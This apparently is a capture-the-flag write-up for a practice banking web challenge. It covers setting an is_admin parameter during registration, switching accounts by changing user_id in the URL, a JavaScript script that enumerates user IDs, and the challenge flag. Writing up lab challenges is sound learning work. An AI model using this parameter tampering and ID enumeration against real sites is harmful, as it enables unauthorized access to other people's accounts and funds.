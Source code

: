 # WebSecDojo.com - The Bank
## My first post :)
### Prerequisites
<ul>
  <li>HTML and Javascript experience.</li>
  <li>Basic knowledge of HTTP requests and API endpoints.</li>
  <li>Developer Panel (I recommend using firefox) or similar software that enables sending web requests.</li>
</ul>
### Exploring the website
<p>
  After entering the challenge I was in `https://websecdojo.com/thebank/index.php`.<br/>
  Since I didn't have an account I thought it'd be better to attempt to create one so I clicked `Don't have an account? Register here`.
</p>
### Trying to register
<p>
  First because I know it's a CTF challenge focused on HTTP requests I opened the network tab.<br/>
  Entered fabricated data and submitted the web-form.
  Found a `POST` request to this URL: `https://websecdojo.com/thebank/register.php`.
  The request's had a parameter named `is_admin` the was set to `0`. When changed to `1`, resending the request will result in a `GET` request to the URL: `https://websecdojo.com/thebank/dashboard.php`.
</p>
### The dashboard
<p>
  Go to `https://websecdojo.com/thebank/dashboard.php` in your browser.
  While the network tab is open try to fill out the form, the request returns failure as response.
  We can see in the request that in the URL there's a parameter named `user_id`.
  Going through the dashboard's HTML I found the function that submits the form.
</p>
### Examining the form submission
Examine this simple function:
```js
        function handleTransfer(event) {
            event.preventDefault();
            
            const form = document.getElementById('transferForm');
            const formData = new FormData(form);
            
            // Get user_id from URL or default to 0
            const urlParams = new URLSearchParams(window.location.search);
            const userId = urlParams.get('user_id') || '0';
            
            // Add user_id to formData
            formData.append('user_id', userId);
            
            fetch('api.php?user_id=' + userId, {
                method: 'POST',
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                const messageDiv = document.getElementById('transferMessage');
                if (data.success) {
                    messageDiv.className = 'alert alert-success mt-3';
                    messageDiv.textContent = 'Transfer successful!';
                    form.reset();
                } else {
                    messageDiv.className = 'alert alert-danger mt-3';
                    messageDiv.textContent = data.message || 'Transfer failed. Please try again.';
                }
            })
            .catch(error => {
                const messageDiv = document.getElementById('transferMessage');
                messageDiv.className = 'alert alert-danger mt-3';
                messageDiv.textContent = 'An error occurred. Please try again.';
                console.error('Error:', error);
            });
            
            return false;
        }
        ```
        
Basically, the function checks the URL for parameters, if non found the `user_id` will be set as `0`.
### Trying to switch into a user that has funds
I added `?user_id=0` to the URL resulting in this: `https://websecdojo.com/thebank/dashboard.php?user_id=0`.
Now the user's named `User Bobbetta` instead of `Admin` and yet still has no balance.
Trying to fill out the form again and submitting it results in failure response.
Trying different IDs return the same user.
Assuming the IDs can be enumerated i wrote this script (ChatGPT wrote it for me ;)):
```js
let id = 0;
const maxAttempts = 5000; // adjust as needed
const delay = 200; // ms delay between requests to avoid hammering the server

function checkNextId() {
    if (id > maxAttempts) {
        console.log("Reached maximum attempts.");
        return;
    }

    fetch(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, {
        credentials: 'include' // keep session cookies
    })
    .then(res => res.text())
    .then(html => {
        // Look for the admin HTML marker
        if (html.includes('<span id="username">Admin</span>')) {
            console.log(`🎯 Found Admin at user_id=${id}`);
            console.log(`URL: https://websecdojo.com/thebank/dashboard.php?user_id=${id}`);
            // Optionally open in new tab:
            window.open(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, '_blank');
        } else if (!html.includes('User Bobbetta')) {
            console.log(`✅ Found non-Bobbetta user at id=${id}`);
        } else {
            console.log(`⛔ Skipped id=${id}`);
        }
    })
    .catch(err => {
        console.warn(`Error at id=${id}:`, err);
    })
    .finally(() => {
        id++;
        setTimeout(checkNextId, delay);
    });
}

checkNextId();

```
Pasted it in the console that's in the Developer Panel and found two users with IDs `10` and `11`.

### Switching into user that has funds
I entered this URL: `https://websecdojo.com/thebank/dashboard.php?user_id=10`
Got into a user named `User John Doe` with `$10000`.
Filled out the form with fabricated information.
The website showed failure yet the request returned success.

### Getting the flag
This one took me a while...
Often most people overlook certain parts of HTTP requests. In this Case it was the `Response Headers`.
Looking there you will find the flag header: `x-flag: flag#Th@tWas3asyN0?`

### Conclusions
Examine the request thoroughly, you can use ChatGPT for this if you're lazy.

### Important remarks
I want to thank Avi who created the CTF challnge and gave me the clue to the last part. I overlooked the Response Headers.
Check out his awesome Web CTFs website: https://websecdojo.com/


